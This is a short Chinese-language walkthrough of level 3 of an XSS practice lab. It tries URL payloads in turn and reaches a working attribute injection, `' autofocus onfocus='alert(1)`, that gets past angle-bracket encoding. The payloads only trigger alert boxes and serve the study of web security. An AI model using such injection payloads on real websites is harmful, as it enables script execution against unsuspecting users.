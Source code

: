 # level3

level3.php?keyword=test&submit=搜索

依旧是一个搜索的界面，也是有两处显示

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1603157696369-f7ec1943-b84d-4d5e-bc1b-927ab171bb6d.png)

level3.php?keyword="/><script>alert(1)</script>

经过测试，双引号闭合被处理了

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1603157811945-ad1c7fd8-797c-4964-89fa-ba1f4b4efc32.png)

level3.php?keyword='/><script>alert(1)</script>

单引号闭合成功，但是输出结果的尖括号被编码

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1603157919322-9e78b18d-430a-45e2-9e91-f23e59914f62.png)

level3.php?keyword=' autofocus onfocus='alert(1)

利用实践，添加input的事件，在获取焦点后执行js代码，然后加上一个自动获取焦点autofocus

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1603158849044-229e8c00-e502-422f-8019-28d91b342f50.png)
